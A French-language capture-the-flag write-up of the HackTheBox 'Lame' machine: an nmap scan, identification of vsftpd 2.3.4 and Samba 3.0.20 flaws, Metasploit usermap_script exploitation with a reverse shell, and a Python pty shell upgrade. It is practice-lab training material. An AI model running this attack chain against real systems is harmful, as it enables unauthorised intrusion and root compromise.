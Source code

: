 # HackTheBox: Lame

![](images/lame_logo.png)

## Scan Nmap 

Pour commencer, j'ai effectué un scan Nmap afin d'identifier les services actifs sur la machine cible. 

```bash
sudo nmap -p- -Pn --min-rate 10000 -v -A -oA lame 10.10.10.3
```
Les résultats montrent plusieurs services ouverts:

```bash
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 2.3.4
22/tcp    open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp  open  distccd     distccd v1 (GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4)
```
![](images/nmap_result.png)

## Analyse des Services 

- Le service `FTP` permet une connexion anonyme mais j'ai rien trouver 
- Les services `Samba` sont actifs sur les ports 139 et 445 
## Recherche de Vulnérabilié

### Vulnérabilité vsftpd 2.3.4

J'ai trouvé une vulnérabilité critique dans vsftpd 2.3.4 qui permet une compromission de la machine via un backdoor. Cependant, pour cet exemple, nous allons nous concentrer sur le service SMB.

![](images/ftp_vuln.png)

### Vulnérabilité SMB

Voyant que le service SMB est actif, j'ai recherché des vulnérabilités associées à cette version de Samba. Une recherche rapide a révélé que cette version de Samba (3.0.20) est vulnérable à l'exploit `Samba usermap script`

![](images/lame_vuln.png)

## Exploitation avec Metasploit

Pour automatiser l'exploitation de cette vulnérabilité, j'ai utilisé Metasploit. Voici les étapes que j'ai suivies pour obtenir un reverse shell avec les privilèges root

- Lancer Metasploit avec la commande `msfconsole`

- Rechercher un exploit pour le service smb `search usermap_script` et `use 0`
- Configuration de l'exploit `set rhost 10.10.10.3`, `set lhost tun0` mon ip pour le reverse shell et `exploit` pour lancer l'exploit 

![](images/msfconsole_1.png)
![](images/msfconsole_2.png)

- Pour obtenir un shell plus interactif j'utilise la commande `python -c 'import pty;pty.spawn("bash")'` 

Et la machine est compromise 

![](images/lame_pwned.png)
